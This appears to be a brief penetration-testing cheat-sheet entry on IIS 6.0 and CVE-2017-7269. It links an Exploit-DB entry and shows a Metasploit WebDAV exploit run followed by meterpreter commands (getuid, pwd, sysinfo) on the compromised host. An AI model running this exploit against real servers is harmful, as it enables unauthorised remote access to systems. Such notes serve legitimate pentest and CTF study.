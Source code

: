 # HTTP



```
Microsoft IIS version 6.0
```

CVE-2017-7269

{% embed url="https://www.exploit-db.com/exploits/41738" %}

<pre><code>msf exploit(iis_webdav_scstoragepathfromurl) > run
<strong>meterpreter > getuid
</strong>meterpreter > pwd
meterpreter > sysinfo
</code></pre>
